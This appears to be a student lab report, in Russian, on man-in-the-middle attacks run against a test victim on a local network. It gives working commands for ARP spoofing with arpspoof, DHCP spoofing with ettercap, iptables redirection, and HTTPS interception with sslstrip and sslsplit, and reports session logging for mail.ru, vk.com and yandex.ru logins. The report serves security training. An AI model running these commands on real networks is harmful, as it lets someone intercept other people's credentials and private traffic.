



# Отчет

## Задание:

1. Выбрать сайт https и с помощью arpspoof перехватить данные, используя ssltrip. Сайт открыть в браузере жертвы.
2. \* Выполнить задание 1, используя dhcp spoof. Разобраться, как работает dhcp spoofing, применяя Wireshark. С помощью ettercap -G запустить dhcp spoof, направив трафик жертвы на Kali linux. В Wireshark перехватить пароль на сайт https, который пытается посетить жертва.
3. \* Выполнить задание 2, используя sslsplit. Сгенерировать сертификат, скормить его sslsplit. Если сайт перестает работать при атаке sslstrip, попробовать поработать с sslsplit.

## Выполнение:

Примечание: работы проводились на дистрибутиве Linux Kali 2020, поэтому часть команд отличается от методички.

*Состав стенда:*

    *Атакующий:* 192.168.43.111
    *"Жертва":* 192.168.43.16
    *Шлюз:* 192.168.43.1

### 1.	Выполнение задания 1.

- установлена утилита arpspoof с github.
- Запущен arp spoofing:

        arpspoof -r 1 -g 192.168.43.1 -i eth0 192.168.43.16

- Перенастроены правила iptables:

        iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080

- Запущен sslstrip

        sslstrip -w sslstrip.log -l 8080

- Полного результата не вышло, т.к. sslstrip выдал множественные внутренние ошибки, однако факт перехвата трафика виден по иконке безопасности в строке адреса браузера:

### 2.	Выполнение задания 2.
- Запущен dhcp spoofing:

        ettercap -Tzq -M dhcp:/255.255.255.0/192.168.43.1

- Ettercap выдал соответствующие сообщения:

    

- Опыт с sslstrip выдал результат аналогичный полученному в первом задании. 

### 3.	Выполнение задания 3.

- Созданы ключ и самоподписанный сертификат для подмены в HTTPS (TLS).

- Запущен dhcp spoofing:

        ettercap -Tzq -M dhcp:/255.255.255.0/192.168.43.1

- Перенастроены правила iptables:

        iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
        iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443

- Запущен sslsplit:

        sslsplit -D -l sslsplit.log -j /tmp/sslsplit/ -S /tmp/ -k server.key -c server.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080

- На компьютере жертвы произведена попытка входа по адресам https://mail.ru, https://vk.com, https://yandex.ru.

    Получены предупреждения браузера об использовании недоверенных сертификатов.
    
    

    В случае игнорирования, происходило логирование сессии на компьютере атакующего.
    
